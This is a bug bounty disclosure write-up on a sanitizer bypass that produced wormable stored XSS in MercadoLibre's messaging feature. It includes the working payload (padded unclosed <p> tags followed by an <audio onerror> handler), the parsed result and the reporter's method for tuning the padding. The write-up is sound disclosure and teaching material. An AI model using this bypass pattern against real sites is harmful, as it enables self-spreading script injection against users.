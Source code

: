 **Public Report:** [https://hackerone.com/reports/1675516](https://hackerone.com/reports/1675516)

## Bypassing the sanitizer: Wormable XSS in MercadoLibre

**Report summary**

The general messaging functionality of www.mercadolibre.com.ar implemented an HTML sanitizer that allowed the use of a limited set of HTML tags while preventing XSS. While analyzing the functionality, @valent1ne discovered that sending multiple unclosed `<p>` tags (`<p><p><p><p><p><p><p><p>`) and appending an extra tag seemed to confuse the sanitizer parser, resulting in unexpected behavior.
This behavior allowed incluiding an extra arbitrary tag, bypassing the sanitizer. For instance, it enabled the appending of an `<audio>` HTML tag at the end of the following payload, which executed JavaScript code:

```html
<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>
```

Later, the reporter discovered that the number of unclosed `<p>` tags needed to be increased depending on the size of the appended HTML tag. This adjustment allowed the insertion of an <embed> tag that included external arbitrary HTML/JavaScript code.

After sending the payload, the parsed HTML would look like this:

```html
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p>
 <audio/src/onerror=alert(document.domain)>
</p>
```

Since this vulnerability affected the general messaging functionality of www.mercadolibre.com.ar, it could have been exploited as a wormable XSS, capable of spreading across multiple users.

**Video**

<video controls width="640" height="360" src="https://github.com/user-attachments/assets/d9191288-4749-4d2a-86c5-b095f134995a" /></video>

**Reward**

A few days after sending the report, a reward was sent =)

<img alt="image" src="https://github.com/user-attachments/assets/487bc56e-a2e7-4fb6-b1ec-57b416bab5a4"></video>

**Discovery**

At first, while testing with buyer/seller accounts to buy/sell products, I knew that when buying a product it would always start a chat so that buyers and sellers could communicate. When making a claim, I quickly saw a request that piqued my curiosity:

```js
POST /<...>

message=%3Cp%3EClaim%20%23123456789%3C%2Fp%3E // Decoded: <p>Claim #123456789</p>
```

I thought, why does it use HTML? Are `<p>` tags in a sort of whitelist?

```html
—-------------  —--------------
|  allowed   |  | disallowed  |
—-------------   —--------------                  
|  <p>        |  |   <img>     |
|  <h1>       |  |     <...>   |
|  <h2>       |  |             |
—-------------   —--------------
```

Then, I tried to execute JS but it was using a sanitizer. That’s when I knew I needed to bypass it, so I started sending every single HTML tag, and noticed something weird.

I thought, how can I hide the disallowed HTML tag? Can I confuse the parser so it can’t see it?

```html
—-----------------      —-----------------
|        <p>      |     |      <p>        |
—----------------- →    —-----------------  
|        <img>    |     |       <img>     |  
—-----------------      —------------------
                        |      </p>       | 
                        —------------------
—-----------------      —-----------------
|        <p>     |     |      <p>         |
—----------------- →    —------------------  
|        <p>     |     |       </p>       |  
—-----------------     —-------------------
|        <img>   |     |      <p>         | 
—-----------------      —------------------
                        |      <img>      |
                        —------------------
                        |      </p>       |
                        —------------------
```
                       
1. When sending `<p><p><img>`, it didn’t remove the `<img>` tag.
2. When just sending `<img>`, it was removed.

After multiple tests, I couldn’t figure out why the sanitizer was working like that. Now I would try to analyze the code to find the root cause, but at that time I didn’t have much experience with that, so I used abstraction and tested based on behavior, until an idea came up: "Balance is key".

A part of my thought process (might be wrong technically)

```html
<p> <p>  <img> → sucess
[3] [3]   [5]
 —------
   [6]
 
<p> <p> <p>    <img/src=x> → error
[3] [3] [3]       [11]
–-—---------     
     [9]

<p> <p> <p> <p> <p>    <img/src=x> → sucess
[3] [3] [3] [3] [3]       [11]
–-—----------------     
        [12]

<p> <p> <p> <p> <p> <p> <p> <p> <p>   <audio/src/onerror=alert()> → sucess
[3] [3] [3] [3] [3] [3] [3] [3] [3]             [27]
–-—---------------------------------     
                 [27]
```

So, the pattern I recognized was something like:

```js
tags = ["<p>", "<p>"]
while (not success):
  tags += "<p>"
```

**Reflection**

After the bug was fixed, they replaced that sanitizer with DOMPurify, so when I wanted to analyze the root cause I couldn’t find what library was used. My thoughts are: probably there was a custom sanitizer that seemed to have a nested node limit that was something like `message length / 2` for some reason. So, you could use `<p> * (message_length/2)` open `<p>` tags, and after that, you could append an `<audio/src/onerror=alert()>` tag that would execute JS. 

After a while, when reflecting about my journey, I think there are many parallelisms in these patterns, and a singular pattern can appear in every bug class. For example, one pattern in this vuln was particularly interesting: 

"There is an allow-list, and wrapping a disallowed object inside an allowed object, bypasses the mitigations."
> That pattern appears in insecure deserializations! \
> Can we transform those singular patterns into generic patterns?
